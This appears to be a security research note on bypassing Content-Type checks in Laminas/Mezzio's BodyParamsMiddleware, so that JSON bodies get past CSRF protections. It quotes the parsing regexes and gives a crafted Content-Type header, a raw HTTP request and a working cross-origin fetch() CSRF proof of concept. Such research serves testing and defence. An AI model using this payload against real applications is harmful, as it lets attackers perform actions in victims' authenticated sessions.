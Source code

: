 ### Laminas, Mezzio, Zend Framework

**Endpoint**
```php
$app->pipe(BodyParamsMiddleware::class);
...
public function indexAction() {
  $request = $this->getRequest();
```

**Source code**

By default, BodyParamsMiddleware composes the following strategies:

 * Mezzio\Helper\BodyParams\FormUrlEncodedStrategy
 * Mezzio\Helper\BodyParams\JsonStrategy

[/mezzio/mezzio-helpers/src/BodyParams/FormUrlEncodedStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/FormUrlEncodedStrategy.php#L18-L22)
```php
class FormUrlEncodedStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/x-www-form-urlencoded($|[ ;])#', $contentType);
```

[/mezzio/mezzio-helpers/src/BodyParams/JsonStrategy.php](https://github.com/mezzio/mezzio-helpers/blob/37660f0d7e7c7db7e20e9d5ebed622379fb1e91a/src/BodyParams/JsonStrategy.php#L27-L31)
```php
class JsonStrategy implements StrategyInterface
{
  public function match(string $contentType) : bool
  {
    return 1 === preg_match('#^application/(|[\S]+\+)json($|[ ;])#', $contentType);
```

**JSON Content-Type**
```
application/XXX;+json
```

**HTTP Request**  
A different case is needed in order to bypass the FormUrlEncodedStrategy.
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-WWW-Form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
  fetch('http://localhost/json',{
    method:'POST',
    headers:{'Content-Type':'application/x-WWW-Form-urlencoded;+json'},
    body:'{"test":true}',
    credentials: 'include'
  })
</script>
```

**Multipart Content-Type**  
Same as [PHP](/ct-tricks/PHP.md)